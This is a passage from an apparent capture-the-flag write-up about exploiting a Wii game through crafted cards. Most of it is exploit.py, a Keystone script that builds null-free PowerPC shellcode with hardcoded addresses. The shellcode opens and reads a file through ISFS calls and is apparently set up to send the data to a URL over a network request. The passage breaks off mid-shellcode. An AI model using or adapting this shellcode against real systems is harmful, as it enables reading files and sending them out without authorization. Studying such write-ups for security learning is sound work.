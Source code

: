 The following are the scripts used to generate the cards, in this case we include addresses from the latest build of the game, which is the one you will find in the attachments. The first script generates the shellcode, while the second one generates the two cards:

exploit.py
```py
from keystone import Ks, KS_ARCH_PPC, KS_MODE_PPC32, KS_MODE_BIG_ENDIAN
from colorama import Fore, Style, init as colorama_init

# ---------- Wii IOS symbols ----------

# Old Addresses
# ISFS_Open     = 0x80107DE0
# ISFS_Read     = 0x80107ED0
# make_request  = 0x8000C9AC
ISFS_Open     = 0x80107DE4
ISFS_Read     = 0x80107ED4
make_request  = 0x8000C974

# ---------- Data locations ------------

# Old Addresses
# Get the new ones inside the Docker
PATH_LOCATION   = 0x90799718
URL_LOCATION    = 0x90799722
READ_BUFFER     = 0x90799760

PORT = 13179

# ---------- Helpers -------------------
h16 = lambda v: (v >> 16) & 0xFFFF
l16 = lambda v:  v        & 0xFFFF

asm_source = f"""
        addis 3, 0, 0x{h16(PATH_LOCATION):04x}
        ori   3, 3, 0x{l16(PATH_LOCATION):04x}
        xor   4, 4, 4        # clear r4
        # We just need 1 in r4, but we can't use null bytes
        addi  4, 4, 0x101
        andi.   4, 4, 0xf0ff

        addis 12, 0, 0x{h16(ISFS_Open):04x}
        ori   12,12, 0x{l16(ISFS_Open):04x}
        mtctr 12
        bctrl

        or    31,3,3

        or    3,31,31
        addis 4, 0, 0x{h16(READ_BUFFER):04x}
        ori   4, 4, 0x{l16(READ_BUFFER):04x}
        xor   5, 5, 5        # clear r5
        addi  5, 5, 0x101
        andi.   5, 5, 0xfff0

        addis 12,0, 0x{h16(ISFS_Read):04x}
        ori   12,12,0x{l16(ISFS_Read):04x}
        mtctr 12
        bctrl

        addis 3, 0, 0x{h16(URL_LOCATION):04x}
        ori   3, 3, 0x{l16(URL_LOCATION):04x}
        xor  4, 4, 4        # clear r4
        xor 4, 4, 4        # clear r4
```
